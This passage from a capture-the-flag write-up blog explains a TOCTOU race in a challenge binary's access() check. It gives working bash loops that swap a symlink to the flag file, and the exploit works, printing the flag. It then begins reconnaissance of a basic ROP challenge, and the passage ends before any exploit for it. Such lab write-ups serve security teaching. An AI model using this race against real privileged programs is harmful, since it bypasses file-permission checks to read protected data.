    0x000000000040079b &lt;+43&gt;:	test   eax,eax
   0x000000000040079d &lt;+45&gt;:	jne    0x4007a6 &lt;can_be_read+54&gt;
   0x000000000040079f &lt;+47&gt;:	mov    eax,0x1
   0x00000000004007a4 &lt;+52&gt;:	jmp    0x4007ab &lt;can_be_read+59&gt;
   0x00000000004007a6 &lt;+54&gt;:	mov    eax,0x0
   0x00000000004007ab &lt;+59&gt;:	leave  
   0x00000000004007ac &lt;+60&gt;:	ret    
End of assembler dump.</code></pre>

The function call the access libc function and return 1 if the access has success or 0 if not. Here is the Tocttou bug. As I said previously, if we change the file after access checked success, we will be able to bypass the access function!

To do it, we will begin by create a file in the tmp directory.This file will be used for the first symbolic link. My friend solved the challenge in python but I'm better in Bash so I will show you the Bash method. To solved the challenge, we will need 2 shell. The first one will do an infine look with 4 command. The two first will create a symlink with the previous created file and then deleted this link and the two next command will created a symlink between with the flag file and then deleted this symlink. The second shell will run the binary in an infinite loop with the symlink as argument. The goal is to set the symlink when access check the file and then change that symlink when the file will be read with the flag file. You can see below a little scheme about the attack:![tocttou scheme](/content/images/2017/09/tocttou_schema.png)

Now let's try it! Below is the first shell view:<pre><code class="bash">$ touch /tmp/dagger/foo

$ while true; do ln -s /tmp/dagger/foo /tmp/dagger/toc; unlink /tmp/dagger/toc; ln -s /challenges/tocttou/flag /tmp/dagger/toc; unlink /tmp/dagger/toc; done

</code></pre>And now the second shell view:<pre><code class="bash">$ while true; do ./tocttou/tocttou /tmp/dagger/toc|grep flag ;done
flag{tick_tock_touuuu}</code></pre>

Done.

Well played to my friend!

#2. BasicROP
As it is sayed in the challenge name, this one is a very basic Return Oriented Programming. For thos who don't know what is the ROP technique, I redirect you to one of my precedent [post](http://quentinmeffre.fr/return-oriented-programming-1/).

I first begin by taking a look to the binary, the size, the protection, the type, etc...<pre><code class="bash">$ file basicrop 
basicrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

$ ls -lh basicrop 
-rwxr-xr-x 1 meffre_q meffre_q 1.1K Sep 21 17:43 basicrop

$ checksec --file basicrop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		0	basicrop

$ nm basicrop 
00000000004000c1 t breakme
000000000060011c D __bss_start
000000000060011c D _edata
0000000000600120 D _end
00000000004000fa t fuckit
0000000000600114 d shell
00000000004000b0 T _start</code></pre>
No special protection, the binary is statically compiled but it seems very small, only 1.1K and after checking the symbol, the binary seems to be developed directly in assembly language because of the little number of symbols.
